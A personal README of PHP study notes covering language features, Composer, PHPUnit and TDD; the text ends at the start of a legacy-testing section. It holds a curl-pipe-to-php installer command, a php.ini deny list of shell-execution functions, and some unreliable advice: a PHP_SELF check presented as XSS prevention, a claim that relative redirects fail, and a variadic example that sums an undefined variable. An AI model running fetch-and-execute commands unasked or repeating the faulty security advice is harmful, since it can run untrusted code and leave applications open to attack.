


PHP notes from courses and web finds.

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [PHP language related and other tips](#php-language-related-and-other-tips)
  - [Arrow funcktions (PHP 7.4)](#arrow-funcktions-php-74)
  - [static variables in functions](#static-variables-in-functions)
  - [self vs static](#self-vs-static)
  - [Callable formats](#callable-formats)
  - [Shorthand for assigning instance variables in constructor (PHP8 only)](#shorthand-for-assigning-instance-variables-in-constructor-php8-only)
  - [No objects as array keys](#no-objects-as-array-keys)
  - [Arrays are assigned by value](#arrays-are-assigned-by-value)
  - [modify array in foreach loop](#modify-array-in-foreach-loop)
  - [array_map with multiple arguments](#array_map-with-multiple-arguments)
  - [Most basic autoloader](#most-basic-autoloader)
  - [Clone objects with clone keyword](#clone-objects-with-clone-keyword)
  - [curly braces inside Strings](#curly-braces-inside-strings)
  - [Array dereferencing (=destructuring / unpacking)](#array-dereferencing-destructuring--unpacking)
  - [Splat operator / unpacking arrays and traversable objects](#splat-operator--unpacking-arrays-and-traversable-objects)
  - [Variable functions](#variable-functions)
  - [Reminder: arrays are not like other objects](#reminder-arrays-are-not-like-other-objects)
  - [var_export vs var_dump](#var_export-vs-var_dump)
  - [Iterate over the last X lines of a SplFileObject](#iterate-over-the-last-x-lines-of-a-splfileobject)
  - [str_replace accepts also arrays for all of its arguments](#str_replace-accepts-also-arrays-for-all-of-its-arguments)
  - [Regex capture groups with preg_replace](#regex-capture-groups-with-preg_replace)
  - [type hinting in foreach loops](#type-hinting-in-foreach-loops)
  - [authentication / pw hashing](#authentication--pw-hashing)
  - [preventing xss attacks](#preventing-xss-attacks)
  - [redirecting](#redirecting)
  - [DateTime magic](#datetime-magic)
  - [Email header injection attacks](#email-header-injection-attacks)
  - [Backticks](#backticks)
  - [Disable dangerous PHP functions](#disable-dangerous-php-functions)
  - [Variable variables](#variable-variables)
  - [DateTime from unix timestamp](#datetime-from-unix-timestamp)
  - [Sort arrays on multiple criteria (PHP5+) and spaceship operator (php7+)](#sort-arrays-on-multiple-criteria-php5-and-spaceship-operator-php7)
  - [Generators](#generators)
  - [Web scraping](#web-scraping)
  - [sscanf to extract parts of a string without regex](#sscanf-to-extract-parts-of-a-string-without-regex)
  - [Randomization](#randomization)
- [Composer](#composer)
  - [Workflow](#workflow)
    - [Initialize composer](#initialize-composer)
    - [Find and install package](#find-and-install-package)
    - [Use libraries](#use-libraries)
    - [Package versions](#package-versions)
    - [Purpose of composer.lock](#purpose-of-composerlock)
    - [Updating composer packages](#updating-composer-packages)
    - [Useful composer commands](#useful-composer-commands)
  - [Composer in production](#composer-in-production)
- [PHP test driven development](#php-test-driven-development)
  - [Test driven development](#test-driven-development)
  - [Why unit test?](#why-unit-test)
    - [Ensures it works now and in the future](#ensures-it-works-now-and-in-the-future)
    - [adds additional documentation](#adds-additional-documentation)
    - [Reduces bugs](#reduces-bugs)
    - [Improves refactoring](#improves-refactoring)
    - [Helps writing better designed code](#helps-writing-better-designed-code)
  - [Automated vs manual testing](#automated-vs-manual-testing)
  - [Other types of testing](#other-types-of-testing)
  - [Installing PHP unit](#installing-php-unit)
  - [General principles](#general-principles)
  - [Arrange-Act-Assert](#arrange-act-assert)
  - [Running tests](#running-tests)
    - [By hand:](#by-hand)
    - [In intellij](#in-intellij)
    - [phpunit.xml](#phpunitxml)
  - [Testdoubles](#testdoubles)
  - [Data Providers](#data-providers)
  - [Exception-based tests](#exception-based-tests)
  - [TDD advantages](#tdd-advantages)
  - [Code coverage basics](#code-coverage-basics)
- [Testing legacy applications](#testing-legacy-applications)
  - [What changes when testing legacy code](#what-changes-when-testing-legacy-code)
  - [Why legacy code can be hard to test](#why-legacy-code-can-be-hard-to-test)
  - [Laying the foundation](#laying-the-foundation)
  - [Testing legacy code](#testing-legacy-code)
- [Intellij / PHPStorm related](#intellij--phpstorm-related)
  - [resolving tables sql](#resolving-tables-sql)
- [Database centric PHP stuff](#database-centric-php-stuff)
  - [PDO prepared statements debugging](#pdo-prepared-statements-debugging)
  - [insert or update if exists](#insert-or-update-if-exists)
  - [Auto incremented indexes out of range](#auto-incremented-indexes-out-of-range)
  - [use exceptions to avoid unnoticed errors](#use-exceptions-to-avoid-unnoticed-errors)
- [PHP and Database version upgrades](#php-and-database-version-upgrades)
  - [Upgrading from PHP 5 to 7](#upgrading-from-php-5-to-7)
- [Security](#security)
  - [Overview](#overview)
  - [Securing the PHP installation](#securing-the-php-installation)
    - [Keeping versions up to date](#keeping-versions-up-to-date)
    - [phpinfo and phpMyAdmin](#phpinfo-and-phpmyadmin)
    - [Configure error reporting and logging](#configure-error-reporting-and-logging)
    - [Other php.ini configurations](#other-phpini-configurations)
    - [PHP on a shared host](#php-on-a-shared-host)
  - [Filtering input and controlling output](#filtering-input-and-controlling-output)
    - [Validate input](#validate-input)
    - [Sanitizing data](#sanitizing-data)
    - [Keeping code private](#keeping-code-private)
    - [Smart logging](#smart-logging)
    - [Cookie configuration](#cookie-configuration)
  - [Defending against the most common attacks](#defending-against-the-most-common-attacks)
    - [Cross-site scripting (XSS)](#cross-site-scripting-xss)
    - [Cross-site request forgery (CSRF)](#cross-site-request-forgery-csrf)
    - [SQL injection](#sql-injection)
    - [Session hijacking and fixation](#session-hijacking-and-fixation)
    - [Remote system execution](#remote-system-execution)
    - [PHP code injection](#php-code-injection)
  - [$_SERVER variable](#_server-variable)
- [Frameworks](#frameworks)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# PHP language related and other tips

## Arrow funcktions (PHP 7.4)

Arrow functions provide a shorter syntax as in JS, but more importantly, automatically have access to the parent's variable scope and thus don't need to use `use ($varname)`, which makes the syntax even more concise compared to normal functions:

    $mult = 5;
    $times5 = fn($param) => $param * $mult;
    echo $times5(3); // 15
    

## static variables in functions

Static variables can be defined in a function and the initial value is only is remembered / not initialized again on
subsequent function calls.

    function doStuff() {
      static $cache = null;

      if ($cache === null) {
        $cache = '%heavy database stuff or something%';
      }

      // code using $cache
    }

[From Stackoverflow](https://stackoverflow.com/questions/6188994/static-keyword-inside-function)

## self vs static

- `self` indicates the class where it is written in the code (resolved at compile time)
- `static`indicates the class that is using it at runtime (meaning it can refer to subclasses)

  class A { public static function get_self() { return new self(); } public static function get_static() { return new
  static(); } }

  class B extends A {}

  echo get_class(B::get_self()); // A echo get_class(B::get_static()); // B echo get_class(A::get_self()); // A echo
  get_class(A::get_static()); // A

[From Stackoverflow](https://stackoverflow.com/questions/5197300/new-self-vs-new-static/5197655)

## Callable formats

Callable can either be a string indicating the function name, a variable an (anonymous) function is assigned to or an
array indicating the class (in case of static functions) or object as the first entry and the function as a second.

Examples from [php.net](https://www.php.net/manual/en/language.types.callable.php):

    // Type 1: Simple callback
    call_user_func('my_callback_function');

    // Type 2: Static class method call
    call_user_func(array('MyClass', 'myCallbackMethod'));

    // Type 3: Object method call
    $obj = new MyClass();
    call_user_func(array($obj, 'myCallbackMethod'));

    // Type 4: Static class method call
    call_user_func('MyClass::myCallbackMethod');

## Shorthand for assigning instance variables in constructor (PHP8 only)

    class Product {
      public function __construct(public string $name, public float $price) {}
    }

is the same as

    class Product {
      public string $name;
      public float $price;

      public function __construct(string $name, float $price) {
        $this->name = $name;
        $this->price = $price;
      }
    }

Not sure if I like this.

## No objects as array keys

Use [https://www.php.net/manual/en/function.spl-object-hash.php](https://www.php.net/manual/en/function.spl-object-hash.php)
instead.

Values of course can be objects.

## Arrays are assigned by value

As this works differently than in most other languages where lists / arrays are just objects like any other, it needs to
be repeated that in php arrays are assigned by value by default and must be explicitely assigned with `&` if passing by
reference is desired:

    $a = [1,2,3];
    $b = $a;
    $a[] = 4; // $a = [1,2,3,4]
    print_r($b); // [1,2,3];
    $b = &$a; // $b = [1,2,3,4];
    $a[0] = 99;
    print_r($b); // [99,2,3,4];
    $a = [5,6,7];
    // surprising as you would expect [5,6,7] to have a new reference:
    print_r($b); // [5,6,7];

## modify array in foreach loop

Items in an array can be modified directly in a foreach loop can be modified when using `&`:

    foreach ($prices2 as &$price) {
        $price = addTax($price, 10);
    }

## array_map with multiple arguments

Additional arguments can be passed to the callback function using an array of values as the third parameter:

    $prices = array_map('addTax', $prices, [20]);

If (and only if) the function takes multiple arguments, **the array keys of an associative array aren't preserved**.

## Most basic autoloader

    spl_autoload_register(function ($class_name) {
        include $class_name . '.php';
    });

## Clone objects with clone keyword

    function nextDay(\DateTime $date) {
      $interval = new DateInterval('P1D');
      $nextDay = clone $date;
      // Mutate the given date
      return $nextDay->add($interval);
    }

Aside: PHP provides als a DateTimeImmutable class:

    function nextDay(DateTimeImmutable $date) {
      $interval = new DateInterval('P1D');
      // DateTimeImmutable makes a new object.
      return $date->add($interval);
    }

Taken from: https://www.phparch.com/2021/05/fiendish-functions-filtering-fact-from-fiction/

## curly braces inside Strings

Old one but never really used it until i got used to the someqhat similar way you can do it in javascript when using
backticks (

Javascript:

    console.log(`var is ${var}`);

PHP:

    echo "\$var is {$var}";

Useful for complex expressions such as method calls or without space between variable and surrounding text.

## Array dereferencing (=destructuring / unpacking)

Arrays can be dereferenced (=destructured) like in JS.

    $info = getimagesize('files/hoover.jpg');
    
    /* $info:
    array(7) {
      [0]=>
      int(500)
      [1]=>
      int(332)
      [2]=>
      int(2)
      [3]=>
      string(24) "width="500" height="332""
      ["bits"]=>
      int(8)
      ["channels"]=>
      int(3)
      ["mime"]=>
      string(10) "image/jpeg"
    }
     */
    
    // Dereferencung directly from function (nothing special about this):
    $bits = getimagesize('files/hoover.jpg')["bits"];
    
    [$w, $h] = $info; // $w = 500, $h = 332
    
    // using list:
    list($w, $h) = $info;
    
    // using non-numerical keys
    [3 => $imgTagSizes, "mime" => $mimeType] = $info;
    echo($imgTagSizes); // width="500" height="332"
    echo($mimeType); // image/jpeg
    
    // another example with foreach
    $p = [
    ['item'=>'a', 'price'=>'1.99'],
    ['item'=>'b', 'price'=>'2.99'],
    ['item'=>'c', 'price'=>'3.99']
    ];
    
    foreach($p as ['item'=>$item, 'price'=>$price]) {
        echo "{$item}: {$price} ";
    }
    
    // skipping elements:
    [$w, , , $imgTagSizes] = $info;

This can also be used to swap array elements in place without a temp var:

    [$ar[2], $ar[0]] = [$ar[0], $ar[2]];

## Splat operator / unpacking arrays and traversable objects

Like in JS, `...` can be used to either receive a variable function of arguments in variadic functions:

    function add(...$nums) {
        return array_sum($sum);
    }
    echo add(1, 2, 3, 4); // 10

Or passing arguments to a function using an array:

    function sum($a, $b, $c) {
        return $a + $b + $c;
    }
    
    $values = [1, 2, 3];
    echo sum(...$values);

Both can be used as the last argument in addition to named arguments too:

    function sum($a, $b, ...$moreValues)
    sum($a, ...[1, 2]);

To pass an array by reference, use & as usual:

    function sum($a, $b, &...$moreValues)

Contrary to JS, this does NOT work:

    //Fatal error: Spread operator is not supported in assignments
    [$a, $b, ...$rest] = [1, 2, 3, 4, 5];

PHP has the splat operator since 5.6

Variadic functions were possible before 5.6:

    function test($vals) {
        print_r(func_get_args()); // ( [0] => 1 [1] => 2 [2] => 3 )
        echo func_num_args(); // 3
    }
    
    test(1,2,3);

## Variable functions

To use functions in variables, they must be assigned as strings (unlike python / javascript):

    $imageOutput['image/gif'] = "imagecreatefromgif";
    $imageOutput['image/jpeg'] = "imagecreatefromjpeg";
    $imageOutput['image/png'] = "imagecreatefrompng";

    $images[] = $imageOutput[$mime]($image->getRealPath());

    // another example
    foreach (new FilesystemIterator('files') as $image) {
        if ($image->isFile() && in_array(strtolower($image->getExtension()), ['png', 'jpg', 'gif'])) {
            ["mime" => $mime] = getimagesize($image->getRealPath());
            $imgFunc = "imagecreatefrom" . substr($mime, strpos($mime, '/') + 1);
            $images[] = $imgFunc($image->getRealPath());
        }
    }

## Reminder: arrays are not like other objects

Arrays are always passed as values (unless `&` is used in the method / function declaration)

## var_export vs var_dump

var_dump shows a readable representation of a variable, array or object; var_export does the same but the output is
valid parsable PHP.

## Iterate over the last X lines of a SplFileObject

    $error_log_path = '/opt/lampp/logs/php_error_log';
    
    $log = new SplFileObject($error_log_path); // hack - go way beyond actual file length and php will correct it to the
    actual last line $log->seek(PHP_INT_MAX); $lastLine = $log->key();
    
    $lines = new LimitIterator($log, $lastLine - 100, $lastLine);
    foreach ($lines as $line) {
      echo $line;
    }

[From stackoverflow, Wallace Maxters/OnoSendai](https://stackoverflow.com/questions/2961618/how-to-read-only-5-last-line-of-the-text-file-in-php)

## str_replace accepts also arrays for all of its arguments

Replace multiple strings in one source string:

    $inlineSvg = str_replace(['%09', '%20', '%3D', '%3A', '%2F', '%22', '%0A', '%0D'],
                [' ', ' ', '=', ':', '/', "'"],
                $inlineSvg);

Replace an occurence in multiple source strings

    $s1 = "hello";
    $s2 = "there";
    
    [$news1, $news2] = str_replace("e", "3", [$s1, $s2,]); // $news1 = "h3llo", $news2 = "th3r3"

Replace mutliple strings with one replacement string:

    echo str_replace([' ', ',', '.', ';', '!', '?'], "_", "this sentence; is NOT! a good filename.");
    // this_sentence__is_NOT__a_good_filename_

## Regex capture groups with preg_replace

`preg_replace` can use arrays just like str_replace (see above).

Use `$1`, `$2` etc. in replace function to insert capture groups:

    function smartQuotes($text) {
        $pattern2replacement = [
          // \1 = repeat first capturing group: "
          '/(")([^"]+?)\1/'       => "\u{201C}$2\u{201D}", // double quotes
  
          // (?<!\w) = negative look behind (doesn't start with a word)
          // ' = '
          // (?=\w) = positive lookahead (must continue with a word)
          "/(?<!\w)'(?=\w)/"      => "\u{2018}", // left single quote
          "/(?<=\w)'(?=\w)/"      => "\u{2019}", // apostrophe
          // positive look behind and negative lookahead
          "/(?<=[\w,.!?])'(?!\w)/" => "\u{2019}" // right single quote
        ];
    
        return preg_replace(array_keys($pattern2replacement), array_values($pattern2replacement), $text);
    }

## type hinting in foreach loops

    /** @var SplFileInfo $svg */
    foreach ($svgs as $svg) {
        echo $svg->getFilename() . ' '; // code completion works now
    }

## authentication / pw hashing

- use 255 characters for hashed password
- use PASSWORD_DEFAULT in [password_hash](https://www.php.net/manual/en/function.password-hash.php) to always use the
  current most secure algorithm
- `password_hash` can't be used to check the password against the stored encrypted pw as php now uses a randomly
  generated salt; use [password_verify](https://www.php.net/manual/en/function.password-verify.php) instead.
- see password_hashing for example implementation

## preventing xss attacks

Always check if the current form address page is the intended address to avoid cross site scripting:

        if($_SERVER['PHP_SELF'] !== '/phptips/form.php') {
            // redirect or other
        }

Never trust $_SERVER variables like $_SERVER['PHP_SELF'].

Works with POST and GET ans PHP_SELF doesn't return query parameters.

## redirecting

Always use a fully qualified URL for redirects:

        header('Location: http://localhost/index.php')

instead of

        header('Location: /index.php'); // will not work

## DateTime magic

Relative datetime format syntax (such as "second monday of october") in
detail [here](https://www.php.net/manual/en/datetime.formats.relative).

    $now = new DateTime();
    $expire = new DateTime('+ 3 months');
    echo $expire->format('d.m.Y'); // 05.11.2021 (when done in august 5th 2021)
    $formatForDB = $expire->format('Y-m-d H:i:s'); // 2021-11-05 08:47:47
    
    $expire = new DateTime('last day of this month + 12 months');
    echo $expire->format('Y-m-d'); // 2022-08-31 (when done on any day in august 2021)
    
    $thanksgiving_ca = new DateTime('second Monday of October 2022');
    echo $thanksgiving_ca->format('Y-m-d'); // 2022-10-10

## Email header injection attacks

The 4th parameter of PHP's `mail` function allows additional headers to be set; when adding these from user / form
input, e.g. `mail('me@example.com', 'Form feedback', $message, "Reply-to: $email");`,
use `$email = filter_input(INPUT_POST, 'email', FILTER_VALIDATE_EMAIL);`

`filter_input` returns false on invalid input, so check if it's false before doing anything with it.

Also note not to use the `From:` field to avoid the mail bouncing, see `email_header_injection.php`.

## Backticks

[Backticks in PHP are identical to using shell_exec!](https://www.php.net/manual/en/language.operators.execution.php)

## Disable dangerous PHP functions

Functions can be disabled in php.ini using `disable_functions` with a comma separated list of function names, e.g.

    disable_functions =exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source

Related recommended security setting:

    allow_url_fopen=Off
    allow_url_include=Off

## Variable variables

They exist and this is all one should know about it. Don't use them. It's not 2001 and form elements are not registered
anymore as global variables.

## DateTime from unix timestamp

To create a DateTime object from a unix timestamp, the timestamp must be preceded by an **@**:

    $now = new DateTime();
    $files = new CallbackFilterIterator($files, function (SplFileInfo $file) use ($now) {
        $modified = new DateTime('@' . $file->getMTime());
        return $modified->diff($now)->days > 180;
    });

## Sort arrays on multiple criteria (PHP5+) and spaceship operator (php7+)

The spaceship `<=>` return

-1 if the left side is smaller than the right 0 if equel 1 if right is smaller than the left

    // -1   0   1  
    //  <   =   >
    usort($members, function ($a, $b) {
        return $a['last_name'] <=> $b['last_name'];
    });
    
    // same as (PHP < 7):
    usort($members, function ($a, $b) {
        if($a['last_name'] == $b['last_name']) {
            return 0;
        }
        return $a['last_name'] < $b['last_name'] ? -1 : 1;
    });

**It is possible to compare arrays with diminishing priority**:

    // including first name as second priority:
    usort($members, function ($a, $b) {
        return [$a['last_name'], $a['first_name']] <=> [$b['last_name'], $b['first_name']];
    });

This also works in PHP < 7 with normal comparison functions:

    usort($members, function ($a, $b) {
        if([$a['last_name'], $a['first_name']] == [$b['last_name'], $b['first_name']]) {
            return 0;
        }
        return [$a['last_name'], $a['first_name']] < [$b['last_name'], $b['first_name']] ? -1 : 1;
    });

## Generators

As Python and JS, PHP has generators now (since 5.5).

Generators are iterators and can be used for co-routines and asynchronous PHP.

Assigning the generator to a variable gives access to the generators methods.

`yield from` can pass execution to another generator.

In PHP5, `return` can't be used with a value in a generator.

To check if the iterator has been closed, use `valid()`. To get the next available value and move to the one following,
use 'current()'.

    function counter($num): Generator  {
      $i=1;
      $total = 0;
      while ($i <= $num) {
          $total += $i;
          yield $i++;
      }
      yield from theEnd();
  
      return $total; // final value
    }
    
    function theEnd(): Generator
    {
        yield 'this';
        yield 'is';
        yield 'the';
        yield 'end';
    }
    
    foreach (counter(3) as $value) {
        echo ' ', $value;
    }
    // 123
    
    $count = counter(5);
    
    foreach ($count as $value) {
        echo ' ', $value;
    }
    echo ' ', $count->getReturn(); // 15
    /*
    1
    2
    3
    this
    is
    the
    end
    1
    2
    3
    4
    5
    this
    is
    the
    end
    15
    */

## Web scraping

PHP has an in-built dom library:

    // PHP uses xml internally and html is mostly not strictly xml compliant
    libxml_use_internal_errors(true);
    
    $doc = new DOMDocument();
    if( ! $doc->loadHTMLFile('attractions.html')) {
        // or
        // $doc->loadHTMLFile('http://localhost' . dirname($_SERVER['PHP_SELF']) . '/attractions.html');
        echo "couldn't load file";
    } else {
        $links = $doc->getElementsByTagName('a');
        /**
         * @ @var $link DOMElement
         */
        foreach ($links as $link) {
            $href = $link->getAttribute('href');
            $linkText = $link->textContent;
            echo "{$href} text: $linkText ";
        }
    }

Further request and parsing libraries to check:

[Goutte with "browser simulation" methods such as "click"](https://github.com/FriendsOfPHP/Goutte)

[Requests](https://requests.ryanmccue.info/)

[Guzzle](https://docs.guzzlephp.org/en/latest/)

[simplehtmldom](https://simplehtmldom.sourceforge.io/)

[hQuery](https://github.com/duzun/hQuery.php)

[ReactPHP](https://sergeyzhuk.me/reactphp-series)

Good post:
https://www.scrapingbee.com/blog/web-scraping-php/

## sscanf to extract parts of a string without regex

`sscanf` can be used in the opposite way of `sprintf` (or printf) to extract parts of a string:

    $colorString = 'rgb(23, 129, 162)'; // spaces are ignored
    $var = sscanf($colorString, 'rgb(%3d,%3d,%3d)', $r, $g, $b);
    // $a = 23, $b = 129, $c = 162
    $hex = sprintf("#%2x%2x%2x", $r, $g, $b); // x automatically converts to hexadecimal
    echo $hex; // #1781a2

## Randomization

PHP7+:

Don't use mt_rand anymore; use `random_int` (or `random_bytes`)instead (greater value range and cryptographically safe).
Shuffle isn't cryptographically safe either (and was shit from the get go as it created biases in randomization).

# Composer

Composer is basically NPM/yarn/pup-like command line tool for php.

- installs libraries (packages) to the current project (or globally)
- manages project dependencies
- manages and updates packages
- simplifies project migration

[Packagist](https://packagist.org/) is the main Composer repository. It aggregates public PHP packages installable with
Composer.

Installation (global):

`curl -sS https://getcomposer.org/installer | php`

Or install `composer.phar` (basically download) only in the current directory from here:

https://getcomposer.org/composer.phar

When using the local composer.phar, replace `composer` in the examples with `php composer.phar`

## Workflow

- initialize compose in the current project
- install / use / managelibraries and packages
- migrate composer settings with the project
- install project dependencies on migration

### Initialize composer

- in intellij, right click on project root folder and add `composer.json` file or run `composer init` in the project
  root from the command line to interactively create the composer.json
- run `composer install` to let composer create a vendor directory, create the autoloader and install packages if they
  are already defined in the json.

### Find and install package

Most packages can be found on packagist.org, with installation instructions. These

Example:

`composer require league/color-extractor:0.3.*`

Install from composer.json:

`composer install`

**Each installed package under the vendor directory gets its own composer.json with its own dependencies.**

### Use libraries

Composer creates an autoloader that must be required in the php scripts:

    require 'vendor/autoload.php';
    
    use League\ColorExtractor\Palette;

### Package versions

Version constraints:

[Major version].[minor release].[incremental update]

- Major version: often breaks existing code on new version
- minor release: rarely breaks existing code on new version
- incremental update: never breaks existing code

Wildcards can be used:

`composer require league/color-extractor:0.3.*` (fixed major and minor to 0.3, any update)

Tilde Version ranges:

`~` marks the minimum version allowed, but enables updates until the next significant release.

`~1.3`: >= 1.3 < 2.0.0  
`~1.3.5`: >= 1.3.5 < 1.4.0

Caret version range:

Same as tilde but always allows nonbreaking (minor version) updates.

`^1.2.3`: >= 1.2.3 < 2.0.0

[More info on versioning](https://getcomposer.org/doc/articles/versions.md)

### Purpose of composer.lock

Ensures that exactly the same versions as in the original project are used when sharing composer.json and composer.lock,
including the libraries own sub-dependencies.

### Updating composer packages

Use `composer outdated` to find outdated packages in the project.

If the result has a `!` between the version numbers, it indicates that something might break when updating.

Best practice is to incrementally update, either by indicating a new version or using `~`

Edit the version in composer.json, then run `composer update [packagename]` or just `composer update` for all versions
in composer.json.

Example:

- Version 1.17.0 is installed
- change to ~1.17.0 to get latest minor release and test if everything still works
- change to ^1.0 to get the latest version that's still major version 1, test
- update to next major version if desired: ^2
-

### Useful composer commands

- `composer init` to initialize a new composer.json file interactively
- `composer install` install packages from composer.json / .lock (if exists)
- `composer require [vendor/package]` adds a package
    - `composer require --dev [vendor/package]` adds a package as a dev requirement (basically just puts it in another
      section in the json and lets you choose later if it should be installed)
- `composer show` shows installe packages including subdependencies
- `composer outdated` shows packages for which newer versions exist
- `composer update` updates all packages to the versions indicated in composer.json and updates composer.lock
- `composer update [vendor/packagename]` updates a specific package
- `composer remove [vendor/packagename]` removes package and all its (unique) dependencies

## Composer in production

- never commit vendor folder as composer.json/lock contains all the necessary information; use .gitignore
- commit composer.lock if exact replica of library versions is desired / required

# PHP test driven development

Course notes for php test driven development course on linkedin learning

## Test driven development

- write test *first*
- run test (must fail)
- write code
- run test
- repeat until completed

## Why unit test?

### Ensures it works now and in the future

- tests are run multiple times, even when doing seemingly unrelated changes
- test first, change code second

### adds additional documentation

- method calls in tests show how to use a method

### Reduces bugs

- proven fewer bugs (teams using TDD had 40-90% reduction of bugs while increasing *initial* development time by only
  15-35%)

### Improves refactoring

- tests assure that changes don't break the software

### Helps writing better designed code

- increased software quality, made coding easier, improved focused planning and design

## Automated vs manual testing

- similar to testing "by hand"
- automated
- isolated
- no forgotten or missed tests and special cases
- faster than manual testing

## Other types of testing

- Integration tests
- Functional testing (against design doc)
- behavior
- acceptance (by stakeholders)

## Installing PHP unit

Requirement: at least PHP 5.6, Composer installed

`composer require phpunit/phpunit`

## General principles

- test in isolation
- test only a few things at once
- tests should be easy to write - a hard tests generally means rewriting the implementation

## Arrange-Act-Assert

- Arrange (arrange preconditions necessary for the test such as setting up a test DB, objects etc)
    - Set up / tear down tests with `setUp` and `tearDown` methods that get called before / after each test method to
      ensure tests don't influence each other.
    - To create objects shared between all tests, use `setUpBeforeClass` and `tearDownAfterClass` methods (**should be
      avoided**).
- Act (act on the method / object under test)
- Assert (assert correctness of results)

## Running tests

### By hand:

`vendor/bin/phpunit [testdirectory]`
`vendor/bin/phpunit [testdirectory]/[TestClass.php]`
`vendor/bin/phpunit [testdirectory] --filter=[TestMethod regex]`
`vendor/bin/phpunit [testdirectory] --filter=[ClassName]:[MethodName]`

Examples:

- `vendor/bin/phpunit tests --filter=receipt` runs all tests in the ReceiptTest.php file
- `vendor/bin/phpunit tests --filter=tax` runs all methods / classes containing "tax", e.g. the testTax method from
  ReceiptTest.php
- `vendor/bin/phpunit [testdirectory] --filter=ReceiptTest:testTax` tests the indicated method

### In intellij

Just click on the play gutter icon in th class definition (run all tests) or at the methods (individual tests)

### phpunit.xml

A xml file can be created to create test suites, exclude directories, adjust settings such as stopOnFailure and output
colors.

Testsuites can be run with `vendor/bin/phpunit --testsuite=[suitname]`, the filter option is still possible.

## Testdoubles

> Test Double is a generic term for any case where you replace a production object for testing purposes.
[Martin Fowler](https://martinfowler.com/bliki/TestDouble.html)

Purpose: test code in isolation; test doubles replace a dependency, ensure some condition occurs, improve test
performance

5 basic types (blurred differentiation):

- Dummy: replaces an object as an input that isn't used or needed for the test (but expected by the tested method)

      $input = [0, 2, 5, 8];
      $coupon = null; // dummy object
      $expected = 15;
      $result = $this->receipt->total($input, $coupon);
      $this->assertEquals($expected, $result, 'Sum should equal 15');

- Fake: simplified version of an object to achieve speed or eliminate side effects
- Stub: provides preset answer to method calls. Example: when checking if an exception is thrown by a method that uses a
  database object, we could create a fake db object with only one method that always returns false:

        class DB {
          public function isConnected() {
            return false;
          }
        }

  In PHPUnit these can be created like this:

        public function testPostTaxTotal() {
          $receipt = $this->getMockBuilder('TDD\Receipt')
              //addMethods for non existing methods, onlyMethods for existing methods
              ->onlyMethods(['tax', 'total'])
              ->getMock();
          $receipt->method('total') // define method output
              ->will($this->returnValue(10.00));
          $receipt->method('tax')
              ->will($this->returnValue(1.00));
        
          // the postTaxTotal method will now interlall use the mock methods above instead
          // of the ones defined in the class
          $result = $receipt->postTaxTotal([1,2,5,8], 0.2, null);
          $expected = 11.0;
          $this->assertEqualsWithDelta($expected, $result, 0.01, 'postTaxTotal amount should be '. $expected);
        }

- Spy: higher level stub, records information about what happened with this test double, e.g. recording the number of
  times it was called
- Mock: higher level stub, respond almost like the real object but avoid side effects (and can do all of the above of
  course)

      // Mock version
      public function testPostTaxTotal()
      {
          $items = [1, 2, 5, 8];
          $tax = 0.2;
          $coupon = null;

          $receipt = $this->getMockBuilder('TDD\Receipt')
              //addMethods for non existing methods, onlyMethods for existing methods
              ->onlyMethods(['tax', 'total'])
              ->getMock();
          // expect this method to be called only once
          // other wise test fails
          // other arguments: never(), exactly(int amount), and more
          // this adds an another assertion to the test result (OK (1 test, 2 assertions)) 
          $receipt->expects($this->once())
              ->method('total') // define method output
              ->with($items, $coupon) // (only) with this input
              ->will($this->returnValue(10.00)); // return this output

          $receipt->expects($this->once())
              ->method('tax')
              ->with(10.00, $tax)
              ->will($this->returnValue(1.00));

          // the postTaxTotal method will now interlall use the mock methods above instead
          // of the ones defined in the class
          $result = $receipt->postTaxTotal([1, 2, 5, 8], 0.2, null);
          $expected = 11.0;
          $this->assertEqualsWithDelta($expected, $result, 0.01, 'postTaxTotal amount should be ' . $expected);
      }

## Data Providers

Data providers can feed a test function with values to test in batch so for different parameters we don't have to write
individual tests.

We indicate the function that feeds the testmethod by annotating the test method:

    /**
     * @dataProvider provideTotal
     */
    public function testTotal($input, $expected)
    {
        $coupon = null; // dummy object
        $result = $this->receipt->total($input, $coupon);
        $this->assertEquals($expected, $result, 'Sum should equal ' . $expected);
    }

The provider function returns an array of arrays with the expected parameters:

    public function provideTotal()
    {
        return [
            [[0,2,5,8], 15],
            [[0], 0],
            [[9999, 9999], 9999+9999]
        ];
    }

Text keys can also be used:

    return [
        'ints should total 15' => [[0,2,5,8], 15],
        // ...
    ];

The test inputs from the provider function can also be filtered:

    vendor/bin/phpunit --filter=testTotal#1
    vendor/bin/phpunit --filter=testTotal#1-2

## Exception-based tests

Thrown exceptions can be checked by adding `expectException` before the function that throws the exception:

    $this->expectException('BadMethodCallException');
    $this->receipt->total($input, $coupon);

## TDD advantages

Build more features and less bugs

- more tests + more coverage = less defects
- less defects = less time spent on bugs
- less time spent on bugs = more time on features
- more tests + more coverage = easier refactoring = easier additional features

## Code coverage basics

What lines were run for what tests?

Coverage can be enabled in phpunit.xml. Add (or alter) xdebug.mode=coverage in php.ini. This creates a html report in
the coverage folder.

Coverage reports can't differentiate between explicit tests / assertions and "accidental" tests, when a tested method
calls another method (that is otherwise untested).

# Testing legacy applications

Notes from the course of the same name by Chris Hartjes on linkedin learning

## What changes when testing legacy code

## Why legacy code can be hard to test

## Laying the foundation

